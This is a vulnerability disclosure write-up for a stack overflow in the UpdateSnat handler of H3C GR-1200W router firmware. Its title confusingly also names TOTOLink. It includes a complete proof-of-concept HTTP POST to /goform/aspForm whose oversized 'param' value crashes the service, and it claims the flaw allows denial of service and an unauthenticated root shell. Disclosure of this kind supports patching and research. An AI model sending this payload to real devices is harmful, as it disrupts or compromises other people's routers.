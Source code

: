 # TOTOLink H3C GR-1200W (<=MiniGRW1A0V100R006) has a stack overflow vulnerability

## Overview

- Manufacturer's website information：https://www.h3c.com/
- Firmware download address ： https://www.h3c.com/cn/d_202102/1383837_30005_0.htm

### Product Information

H3C GR-1200W MiniGRW1A0V100R006 router, the latest version of simulation overview：

![image-20220724213031606](img/image-20220724213031606.png)

## Vulnerability details

The H3C GR-1200W (<=MiniGRW1A0V100R006)  router was found to have a stack overflow vulnerability in the UpdateSnat function. An attacker can obtain a stable root shell through a carefully constructed payload.

![image-20220724213415656](img/image-20220724213415656.png)

In the `UpdateSnat` function, the `param` we entered is formatted using the `sscanf` function and in the form of `%s`. This greedy matching mechanism is not secure, as long as the size of the data we enter is larger than the size of `V10`, it will cause a stack overflow.

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```
POST /goform/aspForm HTTP/1.1
Host: 192.168.0.124:80
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: https://121.226.152.63:8443/router_password_mobile.asp
Content-Type: application/x-www-form-urlencoded
Content-Length: 553
Origin: https://192.168.0.124:80
DNT: 1
Connection: close
Cookie: JSESSIONID=5c31d502
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

CMD=UpdateSnat&param=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA;
```

![image-20220724220946426](img/image-20220724215411671.png)

The picture above shows the process information before we send poc.

![image-20220724221039594](img/image-20220724215659752.png)

In the picture above, we can see that the PID has changed since we sent the POC.

![image-20220724220011366](img/image-20220724220011366.png)

The picture above is the log information.

![image-20220624230619282](img/image-20220624230619282.png)

By calculating offsets, we can compile special data to refer to denial-of-service attacks(DOS).

![image-20220724220055672](img/image-20220724220055672.png)

Finally, you also can write exp to get a stable root shell without authorization.

